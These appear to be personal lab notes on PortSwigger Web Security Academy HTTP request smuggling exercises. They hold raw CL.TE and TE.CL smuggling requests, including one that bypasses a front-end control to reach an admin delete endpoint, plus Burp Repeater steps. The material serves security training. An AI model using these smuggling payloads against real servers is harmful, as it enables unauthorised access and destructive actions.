 ____

# HTTP request smuggling, confirming a CL.TE vulnerability via differential responses


```
POST / HTTP/1.1
Host: 0ad900fc04a5e02480c97b4300e60060.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

![[Pasted image 20240815043936.png]]


# HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.

Using Burp Repeater, issue the following request twice:

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![[Pasted image 20240815060930.png]]

# Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

![[Pasted image 20240815063631.png]]

```
tRANSFER-ENCODING: chunked
Connection: close

3
x=y
0

GET /admin/delete?username=carlos HTTP/1.1
X-Ignore: X
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Host: localhost

x=
```

# Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

![[Pasted image 20240815131026.png]]

# Exploiting HTTP request smuggling to reveal front-end request rewriting

The front-end server adds an HTTP header to incoming requests containing their IP address. It's similar to the `X-Forwarded-For` header but has a different name.

![[Pasted image 20240815133129.png]]


![[Pasted image 20240815133321.png]]

